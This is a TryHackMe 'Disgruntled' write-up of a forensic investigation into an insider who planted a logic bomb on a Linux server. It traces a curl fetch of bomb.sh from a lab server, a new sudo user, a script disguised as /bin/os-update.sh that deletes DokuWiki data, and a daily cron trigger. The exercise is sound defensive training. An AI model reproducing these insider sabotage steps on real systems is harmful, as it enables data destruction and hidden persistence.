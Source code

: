 # [TryHackMe - Disgruntled](https://tryhackme.com/room/disgruntled)
![17bf632054e2a09eb9bca1918230589d.png](/resources/17bf632054e2a09eb9bca1918230589d.png)
***
[toc]
***
## Introduction
**Hey, kid! Good, you’re here!**

**Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.**

**CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.**

![bcfe2405d78c8e84ae8a4409e2046897.png](/resources/bcfe2405d78c8e84ae8a4409e2046897.png)

After deployed the machine, we automatically accessed the compromised machine as root so we have to conduct an investigation with cares since root privilege can tampered with live evidence and we have to redeploy to machine it if we accidently deleted critical evidences

* * *
## Nothing suspicious... So far
**Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.**

**My advice: Look at the privileged commands that were run. That should get you started.**

>The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

If we're looking for privileged commands, the best places to check are `bash_history` of root user and `auth.log`, which keeps track of authentication events and also commands executed by user using `sudo` as well.

![165a61600129eb8cf564494246c2350a.png](/resources/165a61600129eb8cf564494246c2350a.png)

To filter out commands from auth.log, we can run `grep COMMAND /var/log/auth.log`. This helps us see what was run with elevated privileges. Looking at the logs, it turns out the "cybert" user installed **DokuWiki** using `apt` with `sudo`.

```
/usr/bin/apt install dokuwiki
```

>What was the present working directory (PWD) when the previous command was run?

![2533faf610bc1b86492d48d458158ae3.png](/resources/2533faf610bc1b86492d48d458158ae3.png)

We can see that most commands are executed from home directory of "cybert" user including the previous command we found as well.

```
/home/cybert
```

***
## Let’s see if you did anything bad
**Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.**

>Which user was created after the package from the previous task was installed?

![784ff15d7a1460a2fe90be27bbff919e.png](/resources/784ff15d7a1460a2fe90be27bbff919e.png)

After installed DokuWiki, user then created another user "it-admin" with `sudo`

```
it-admin
```

>A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

![374681854fe24f5e02fe8cda5c61602a.png](/resources/374681854fe24f5e02fe8cda5c61602a.png)

Notice that `visudo` was used and then "it-admin" was found to executed command as root via `sudo` which mean user edited `/etc/sudoers` file to make "it-admin" user can execute command as root.

![1dcfee70068c19ae705f1cdecbe54990.png](/resources/1dcfee70068c19ae705f1cdecbe54990.png)

To match the timeline from the audit log, we can use `stat /etc/sudoers` to display statistic of a file which included Access, Modify and Change timestamp as well and as we can see from the above image, the modify and change timestamp matches the timestamp of `visudo` binary usage in audit log.

```
Dec 28 06:27:34
```

>A script file was opened using the "vi" text editor. What is the name of this file?

![ce7f4352d887a68046d805014b4e3718.png](/resources/ce7f4352d887a68046d805014b4e3718.png)

Then after that, we can see that "it-admin" user used `vi` to edit `bomb.sh` file.

```
bomb.sh
```
* * *
## Bomb has been planted. But when and where?
**That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.**

>What is the command used that created the file `bomb.sh`?

![ac6c2787b16650d9e7ee4997241b2d33.png](/resources/ac6c2787b16650d9e7ee4997241b2d33.png)

Upon accessing "it-admin" user's home directory, `bomb.sh` was nowhere to be found so we have to inspect `.bash_history` to find out what happened and it turns out, the file was not newly created on this machine but fetched from other server using `curl` but we could also see that "it-admin" removed `bomb.sh` later which is the reason why we could not find this file on this user's home directory

```
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

>The file was renamed and moved to a different directory. What is the full path of this file now?

![4d52d81b8183beffcebf791b77ef1079.png](/resources/4d52d81b8183beffcebf791b77ef1079.png)

Since we know that user use `vi` to edit file then we can inspect `.viminfo` file for any history related to `vi` and we can see that the file was saved as `/bin/os-update.sh`. 

```
/bin/os-update.sh
```

>When was the file from the previous question last modified? (Format: Month Day HH:MM)

![26975dd3ecb73bdadb7176e0c3bbb1d7.png](/resources/26975dd3ecb73bdadb7176e0c3bbb1d7.png)

We could copy UNIX timestamp from `.viminfo` and convert it but lets just use `stat /bin/os-update.sh` since its a lot easier which we can see that upon saving this file, there is no modification on this file after that.

```
Dec 28 06:29
```

>What is the name of the file that will get created when the file from the first question executes?

![fe845f14134c336b683768d9f7c7e7ca.png](/resources/fe845f14134c336b683768d9f7c7e7ca.png)

Lets see what's inside this file, and It appears to be a logic bomb to remove dokuwiki installation directory if "it-admin" user hasn't logged in in the last 90 days and will also create a file with taunting message after the deletion.

```
goodbye.txt
```
* * *
## Following the fuse
**So we have a file and a motive. The question we now have is: how will this file be executed?**

**Surely, he wants it to execute at some point?**

>At what time will the malicious file trigger? (Format: HH:MM AM/PM)

![e1761a6c71c0ca4c1ba3d1b43937c999.png](/resources/e1761a6c71c0ca4c1ba3d1b43937c999.png)

From bash history file, we found that user also use nano to edit `/etc/crontab` file which responsible for global cronjob of the system.

![d90c8c91f5a6d762c24345a2f4386816.png](/resources/d90c8c91f5a6d762c24345a2f4386816.png)

By inspecting the file, we can see that the logic bomb script is set to  execute at 08:00 AM everyday.

```
08:00 AM
```

![8224f9be9ee9d6849e876d2dcaecbcc6.png](/resources/8224f9be9ee9d6849e876d2dcaecbcc6.png)

And we are done.

![95bdfe7c4391d8ba2e289081f79950b8.png](/resources/95bdfe7c4391d8ba2e289081f79950b8.png)
https://tryhackme.com/chicken0248/badges/handle-the-disgruntled

***